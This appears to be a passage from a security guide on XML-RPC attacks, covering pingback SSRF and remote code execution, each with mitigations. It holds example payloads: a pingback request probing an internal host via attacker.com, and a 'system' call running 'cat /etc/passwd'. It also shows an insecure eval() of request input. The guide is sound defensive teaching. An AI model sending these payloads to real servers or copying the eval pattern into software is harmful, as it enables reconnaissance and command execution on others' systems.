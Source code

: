 ```xml
<?xml version="1.0"?>
<methodCall>
  <methodName>pingback.ping</methodName>
  <params>
    <param>
      <value><string>http://internal-service.local</string></value>
    </param>
    <param>
      <value><string>http://attacker.com</string></value>
    </param>
  </params>
</methodCall>
```

If the internal service responds, it confirms its existence. This can be used for **port scanning**, **internal enumeration**, or even **retrieving AWS metadata** in cloud environments.

###  **Mitigation:**  
- Block external requests from the webserver using `iptables` or `cloud security groups`.  
- Disable XML-RPC if not needed.  
- Implement proper **outbound traffic filtering**.  

---

##  **4. Remote Code Execution (RCE) via XML-RPC**  
###  **Issue:**  
If a vulnerable XML-RPC implementation doesn’t properly sanitize input, an attacker may execute arbitrary system commands.

###  **Exploit (Example in PHP):**  
A vulnerable PHP script that directly evaluates user input:

```php
eval($xmlrpc_request);
```

An attacker could craft a malicious XML payload to execute system commands:

```xml
<?xml version="1.0"?>
<methodCall>
  <methodName>system</methodName>
  <params>
    <param>
      <value><string>cat /etc/passwd</string></value>
    </param>
  </params>
</methodCall>
```

###  **Mitigation:**  
- Avoid using `eval()` or unsafe deserialization of XML-RPC input.  
- Use **input validation and sanitization** to prevent malicious execution.  
- Use **SELinux/AppArmor** to restrict system command execution.  

---